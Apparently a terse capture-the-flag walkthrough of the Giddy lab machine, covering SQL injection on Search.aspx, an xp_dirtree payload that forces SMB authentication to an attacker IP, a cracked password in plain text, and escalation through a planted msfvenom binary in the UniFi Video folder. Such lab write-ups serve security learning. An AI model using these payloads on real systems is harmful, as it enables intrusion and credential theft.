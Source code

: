 in mvc directory we found https://giddy.htb/mvc/Search.aspx
when we use this payload we get sql injection ' if (select user) != 'sa' waitfor delay '0:0:5'--
after this we generete this payload
'+EXEC+master.sys.xp_dirtree+'\\10.10.14.14\share--
and add this in post inject parametr in burp suite
![[Pasted image 20250206211634.png]]

sudo impacket-smbserver share ./ -smb2support
![[Pasted image 20250206211710.png]]
cracked password: xNnWo6272k7x

we login with evil-winrm

then we found https://www.exploit-db.com/exploits/43390
create taskkill.exe file with msfvenom and add this file to
C:\ProgramData\unifi-video\
and run this command
Stop-Service "Ubiquiti UniFi Video"

use msfconsole exploit/multi/handler
